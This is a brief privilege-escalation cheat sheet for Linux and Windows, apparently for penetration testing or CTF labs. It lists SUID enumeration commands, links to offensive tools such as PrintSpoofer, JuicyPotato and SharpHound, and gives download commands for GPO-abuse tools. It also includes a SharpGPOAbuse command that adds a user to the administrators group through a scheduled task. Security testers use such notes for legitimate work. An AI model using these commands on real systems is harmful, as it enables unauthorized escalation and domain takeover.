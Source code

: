 # Linux Privesc
```sudo -l
```
```
find / -type f -perm -u=s 2>/dev/null
```
```
find / -type f -perm -4000 2>/dev/null
```
# Window Privesc
## PrintSpoofer.exe
```
https://github.com/itm4n/PrintSpoofer
```
## JuicyPotato
```
https://github.com/ohpe/juicy-potato
```
## Powerview
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```
## SharpHound
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```
## PowerGPOAbuse
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```
## SharpGPOAbuse
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
